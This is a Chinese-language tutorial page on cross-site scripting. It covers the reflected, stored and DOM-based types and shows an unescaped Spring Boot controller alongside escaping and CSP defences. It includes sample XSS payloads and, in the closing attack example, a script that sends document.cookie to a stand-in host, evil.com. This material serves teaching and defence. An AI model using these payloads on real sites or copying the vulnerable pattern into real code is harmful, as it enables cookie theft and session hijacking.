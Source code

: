 ```yaml
---
title: XSS（跨站脚本攻击）
date: 2025-06-26
category:
  - 安全
---
```


# 跨站脚本攻击（XSS）

XSS（Cross-Site Scripting，跨站脚本攻击）是一种常见的 Web 安全漏洞，攻击者通过在网页中注入恶意脚本，使脚本在用户浏览器中执行，从而窃取用户信息、冒充用户操作等。

## 分类
XSS 攻击主要分为三类：

### 1. 反射型 XSS
攻击代码作为请求参数提交，服务器端将其原样返回并在页面中立即执行。

**示例：**
```
https://example.com/search?q=<script>alert('xss')</script>
```
如果后端直接将 `q` 参数输出到页面，脚本会被执行。

### 2. 存储型 XSS
攻击代码被存储在服务器（如数据库、日志、评论等），其他用户访问时会被加载并执行。

**示例：**
用户在评论区提交：
```html
<script>alert('xss')</script>
```
所有访问该评论的用户都会触发弹窗。

### 3. DOM 型 XSS
前端 JavaScript 动态拼接或插入未经过滤的用户输入，导致脚本执行。

**示例：**
```html
<!-- 前端代码 -->
document.getElementById('result').innerHTML = location.hash.substring(1);
```
访问：
```
https://example.com/#<img src=1 onerror=alert('xss')>
```
会导致 XSS。

## 原理
攻击者将恶意 JavaScript 代码注入到网页中，当其他用户访问该页面时，恶意代码在其浏览器中执行，可能导致 Cookie 泄露、会话劫持、页面仿冒等安全问题。

## 错误编码示例
如下是易受 XSS 攻击的后端代码示例（以 Java Spring Boot 为例）：

```java
// 未做任何输出转义的 Controller
@RestController
public class CommentController {
    @PostMapping("/comment")
    public String comment(@RequestParam String content) {
        // 直接输出用户输入内容，存在 XSS 风险
        return "<div>" + content + "</div>";
    }
}
```

上述代码未对用户输入进行转义，攻击者可提交如下内容：

```html
<script>alert('XSS');</script>
```

页面渲染后会弹窗，证明 XSS 攻击成功。

## 安全编码方式
1. 对所有输出到页面的内容进行 HTML 转义。
2. 严格校验和过滤用户输入。
3. 禁止在页面中使用 `innerHTML`、`eval` 等高危 API。
4. 设置合适的 CSP（内容安全策略）。

**Java Spring Boot 输出转义示例：**

```java
// 使用 Thymeleaf 等模板引擎自动转义
<p th:text="${content}"></p>
```

**前端转义示例：**

```js
function escapeHtml(str) {
  return str.replace(/[&<>"']/g, function (c) {
    return {'&':'&amp;','<':'&lt;','>':'&gt;','"':'&quot;','\'':'&#39;'}[c];
  });
}
```

## 攻击例子
攻击者提交如下评论内容：

```html
<script>fetch('https://evil.com/steal?cookie=' + document.cookie)</script>
```

如果未做防护，用户访问评论区时 Cookie 会被窃取。

